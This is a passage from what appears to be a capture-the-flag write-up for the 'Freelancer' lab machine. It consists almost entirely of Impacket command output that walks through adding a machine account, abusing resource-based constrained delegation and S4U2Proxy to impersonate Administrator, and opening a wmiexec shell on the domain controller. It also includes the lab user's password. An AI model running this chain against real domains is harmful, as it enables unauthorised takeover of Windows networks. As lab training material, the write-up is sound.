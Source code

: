 ![](https://i.imgur.com/I37moji.png)

```shell
rexder@HunterMachine ~> impacket-addcomputer 'freelancer.htb/lorra199:PWN3D#l0rr@Armessa199' -dc-ip 10.129.194.233 -computer-name rexder -computer-pass 'password@123'
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Successfully added machine account rexder$ with password password@123.
                                                  ^
rexder@HunterMachine ~> impacket-rbcd -action write -delegate-from "rexder\$" -delegate-to "dc\$" freelancer.htb/'lorra199':'PWN3D#l0rr@Armessa199' -dc-ip 10.129.194.233

Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] rexder$ can now impersonate users on dc$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     rexder$      (S-1-5-21-3542429192-2036945976-3483670807-11601)

rexder@HunterMachine ~> faketime -f +5h impacket-getST -spn cifs/dc.freelancer.htb -impersonate Administrator -dc-ip 10.129.194.233 freelancer.htb/'rexder$:hackyou@123'


Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_dc.freelancer.htb@FREELANCER.HTB.ccache

rexder@HunterMachine ~> export KRB5CCNAME=`pwd`/Administrator@cifs_dc.freelancer.htb@FREELANCER.HTB.ccache

rexder@HunterMachine ~ [1]> klist
Ticket cache: FILE:/home/rexder/Administrator@cifs_dc.freelancer.htb@FREELANCER.HTB.ccache
Default principal: Administrator@freelancer.htb

Valid starting     Expires            Service principal
06/03/24 19:09:28  06/04/24 05:09:26  cifs/dc.freelancer.htb@FREELANCER.HTB
	renew until 06/04/24 19:09:26

rexder@HunterMachine ~ [1]> impacket-wmiexec -k dc.freelancer.htb
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>cd Users\Administrator\Desktop
C:\Users\Administrator\Desktop>cat root.txt

```
### Maintaining Access
